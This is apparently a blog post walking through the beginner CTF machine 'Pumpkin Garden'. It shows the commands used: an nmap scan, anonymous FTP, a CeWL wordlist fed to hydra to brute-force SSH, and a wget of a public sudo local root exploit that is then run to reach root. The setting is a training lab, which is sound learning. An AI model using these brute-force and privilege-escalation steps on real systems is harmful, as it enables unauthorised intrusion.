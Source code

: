 ```yaml
---
layout: post
title: Pumpkin Garden v1.0 Walkthrough
---
```



# Pumpkin Garden Walkthrough

"Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinRaising is Level 2 of series of 3 machines under Mission-Pumpkin v1.0. The Level 1 ends by accessing PumpkinGarden_Key file, this level is all about identifying 4 pumpkin seeds (4 Flags - Seed ID’s) and gain access to root and capture final Flag.txt file."


After starting the Pumpkin Garden machine, which is running on Ubuntu 14.04, you will see a screen such as the one below:
![]({{ site.baseurl }}/images/PG/PG1.png)

As usual, we are going to start with scanning the ip of our target machine with the command:

```
nmap -p- -A 10.10.0.5
```

This will give us all the information about open ports and the services running on those ports. It shows that we have ftp, ssh and http, all of which are possible attack vectors.

![]({{ site.baseurl }}/images/PG/PG2.png)

From the information the scan returns to us, you can see that there are a couple of options to go about this. We are going to start with the low hanging fruit, so that we learn as much as possible along the way. So let's try ftp login as anonymous with a blank password,

```
ftp 10.10.0.5
```

![]({{ site.baseurl }}/images/PG/PG3.png)

After we get in, we can do an ls to check what is in the current directory, and there's a note. Nice. Let's grab that note and read it. It says that "Looking for PumpkinGarden? I think jack can help you find it", that's a clue that jack is a user on this machine.

So we can try an ssh as jack, but we don't have a password. We need to generate a password list that we can use for the ssh login. We can use cewl to generate that password.

To generate the password list we are going to use CeWL. CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a list of words which can then be used for password crackers such as John the Ripper.

```
cewl http://10.10.0.5:1515 -w wordlist.txt
```

After generating the wordlist, then we can use hydra to bruteforce the ssh login and point us to the correct password.

```
hydra -l jack -P wordlist.txt ssh://10.10.0.5 -s 3535
```

![]({{ site.baseurl }}/images/PG/PG5.png)

And here, we find our password, so we can go ahead and login as jack.

```
ssh -p 3535 jack@10.10.0.5
```

![]({{ site.baseurl }}/images/PG/PG6.png)

And from this, we get another clue, that there is another user by the name scarecrow. We need to find the password for scarecrow.

At this point, after trying other things, I had to move and look around the site on 10.10.0.5:1515, to see if i can find any other clue.

![]({{ site.baseurl }}/images/PG/PG7.png)

From viewing the page source, we can read the message that says "Pumpkin images may help you find the way", which is good. All we have to do is go looking into pumpkin images

![]({{ site.baseurl }}/images/PG/PG8.png)

We can do a dirb to check the urls of the images folder, and then head over there. After looking around, we'll see an image titled hidden.jpg, that's interesting. and following that, we are going to find a clue, clue.txt, with a base64 string. After decoding that, we have scarecrow's password. So we can login as scarecrow now:

```
echo <base64string> | bade64 -d
ssh -p 3535 scarecrow@10.10.0.5
```

![]({{ site.baseurl }}/images/PG/PG9.png)

In there there is another note, pointing us to the root user aka LordPumpkin, and we get the password for logging in as goblin as well, that's cool.

So we are gonna go ahead and login as goblin,

```
ssh -p 3535 goblin@10.10.0.5
```
![]({{ site.baseurl }}/images/PG/PG10.png)

The final thing we have to do is run the provided exploit to get root access, that's easy enough provided the exploit is already given to us.

```
wget https://www.securityfocus.com/data/vulnerabilities/exploits/38362.sh
```
After fetching the exploit, we have to make the file executable, and then run it. To understand more about the vulnerability please visit this link https://www.securityfocus.com/bid/38362/info

```
goblin@Pumpkin:~$ chmod +x 38362.sh 
goblin@Pumpkin:~$ ./38362.sh 38362.sh 
Tod Miller Sudo local root exploit
by Slouching
automated by kingcope
ALEX-ALEX
root@Pumpkin:/tmp# cd
root@Pumpkin:~# ls
PumpkinGarden_Key 
root@Pumpkin:~# cat PumpkinGarden_Key 
Q29uZ3JhdHVsYXRpb25zIQ==
root@Pumpkin:~# echo Q29uZ3JhdHVsYXRpb25zIQ== | base64 -d
Congratulations!
```

And we are done, we got the flag!





